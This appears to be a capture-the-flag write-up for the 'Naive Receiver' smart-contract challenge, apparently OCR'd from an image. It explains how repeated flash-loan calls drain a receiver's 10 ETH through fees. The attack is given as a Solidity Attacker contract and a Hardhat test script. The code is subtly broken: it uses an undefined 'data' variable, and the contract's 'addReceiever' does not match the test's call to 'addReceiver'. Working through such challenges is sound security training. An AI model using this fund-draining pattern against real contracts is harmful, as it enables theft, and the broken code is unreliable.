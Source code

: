 - So we can see that, the attacker can drain the funds of the receiver by calling this function multiple times like 10 times in this case because the receiver has a balance of 10 ETH which we have to drain by calling the function 10 times and every time attacker calls the function, 1ETH is drained from receiver account as **FEE.**
- **Solution:**
- **Attacker.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// @note we import NaiveReceiverLenderPool for flashLoan function
import "./NaiveReceiverLenderPool.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attacker{ 
    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 public constant amount = 100;
    NaiveReceiverLenderPool public pool;
    IERC3156FlashBorrower public receiver;
    function addReceiever(IERC3156FlashBorrower _recevier)public{
        receiver = _recevier;
    }

    function addPool(NaiveReceiverLenderPool _pool)public{
        pool = _pool;
    }

    fallback() payable external{
        for(uint i=0;i<10;i++)
        {
            pool.flashLoan(receiver,ETH,amount,data);
        }
    }
}
```

- Since we sendTransaction() to the attacker’s address and we can see that there is no receive function so our fallback() function is called where we call flashLoan() 10 times to drain funds.
- **naive-receiver-challenge.js**

```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        let Attacker = await ethers.getContractFactory("Attacker");
        let attacker = await Attacker.deploy();
        await attacker.addReceiver(receiver.address);
        await attacker.addPool(pool.address);
        await player.sendTransaction({
          to: attacker.address, 
          gasLimit: 30000000,
        })
    });
```
